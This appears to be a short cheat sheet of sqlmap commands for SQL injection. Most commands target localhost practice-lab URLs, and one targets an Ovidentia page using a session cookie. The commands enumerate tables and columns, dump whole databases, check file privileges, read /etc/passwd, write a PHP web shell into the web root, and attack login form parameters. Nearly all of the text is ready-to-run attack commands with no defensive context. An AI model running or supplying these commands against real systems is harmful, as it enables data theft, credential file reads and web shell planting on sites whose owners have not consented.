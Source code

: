 #### List tables

```shell
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name --tables
```

#### List columns

```shell
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name -T table_name --columns
```

#### Dump all

```shell
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name -T table_name --dump-all
```

#### Set Cookie

```shell
./sqlmap.py -u http://target/ovidentia/index.php\?tg\=delegat\&idx\=mem\&id\=1 --cookie "Cookie: OV1364928461=6kb5jvu7f6lg93qlo3vl9111f8" --random-agent --risk 3 --level 5 --dbms=mysql -p id --dbs
```

#### Checking Privileges

```shell
./sqlmap.py -u http://localhost/Less-1/?id=1 --privileges | grep FILE
```

#### Reading file

```shell
./sqlmap.py -u <URL> --file-read=<file to read>
```

```shell
./sqlmap.py -u http://localhost/Less-1/?id=1 --file-read=/etc/passwd
```

#### Writing file

```shell
./sqlmap.py -u <url> --file-write=<file> --file-dest=<path>
```

```shell
./sqlmap.py -u http://localhost/Less-1/?id=1 --file-write=shell.php --file-dest=/var/www/html/shell-php.php
```

#### POST

```shell
./sqlmap.py -u <POST-URL> --data="<POST-paramters> "
```

```shell
./sqlmap.py -u http://localhost/Less-11/ --data "uname=teste&passwd=&submit=Submit" -p uname
```
